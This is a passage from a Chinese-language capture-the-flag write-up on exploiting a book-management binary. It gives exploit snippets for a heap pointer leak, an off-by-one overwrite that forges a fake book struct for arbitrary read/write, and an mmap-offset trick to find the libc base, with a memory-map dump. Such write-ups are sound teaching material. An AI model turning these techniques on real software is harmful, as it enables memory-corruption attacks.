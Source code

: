 ```
js('Enter book name (Max 32 chars):')
fs('object1')
js('Enter book description size:')
fs('32')
js('Enter book description:')
fs('object1')
    
js('>')# print book1
fs('4')
js('Author:')
js('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa') # <== leak book1
book1_addr=jsn(6)
book1_addr=book1_addr.ljust(8,'\x00')
book1_addr=u64(book1_addr)
```


### 2.off-by-one覆盖指针低字节

程序中同样提供了一种change功能，change功能用于修改author name，所以通过change可以写入author name，利用off-by-one覆盖pointer array第一个项的低字节。


覆盖掉book1指针的低字节后，这个指针会指向book1的description，由于程序提供了edit功能可以任意修改description中的内容。我们可以提前在description中布置数据伪造成一个book结构，这个book结构的description和name指针可以由直接控制。

```
def off_by_one(addr):
    addr+=58
    js('>')# create fake book in description
    fs('3')
    fake_book_data=p64(0x1)+p64(addr)+p64(addr)+pack(0xffff) 
    js('Enter new book description:')
    fs(fake_book_data)      # <== fake book
    

    js('>')# change author name
    fs('5')
    js('Enter author name:')
    fs('a'*32)          # <== off-by-one
```

这里在description中伪造了book，使用的数据是p64(0x1)+p64(addr)+p64(addr)+pack(0xffff)。
其中addr+58是为了使指针指向book2的指针地址，使得我们可以任意修改这些指针值。


### 3.通过栈实现利用

通过前面2部分我们已经获得了任意地址读写的能力，读者读到这里可能会觉得下面的操作是显而易见的，比如写got表劫持流程或者写__malloc_hook劫持流程等。但是这个题目特殊之处在于开启PIE并且没有泄漏libc基地址的方法，因此我们还需要想一下其他的办法。

这道题的巧妙之处在于在分配第二个book时，使用一个很大的尺寸，使得堆以mmap模式进行拓展。我们知道堆有两种拓展方式一种是brk会直接拓展原来的堆，另一种是mmap会单独映射一块内存。

在这里我们申请一个超大的块，来使用mmap扩展内存。因为mmap分配的内存与libc之前存在固定的偏移因此可以推算出libc的基地址。
```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/桌面/123/123
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/桌面/123/123
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/桌面/123/123
0x00007f8d638a3000 0x00007f8d63a63000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63a63000 0x00007f8d63c63000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c63000 0x00007f8d63c67000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c67000 0x00007f8d63c69000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c69000 0x00007f8d63c6d000 0x0000000000000000 rw- 
0x00007f8d63c6d000 0x00007f8d63c93000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e54000 0x00007f8d63e79000 0x0000000000000000 rw- <=== mmap
0x00007f8d63e92000 0x00007f8d63e93000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e93000 0x00007f8d63e94000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
```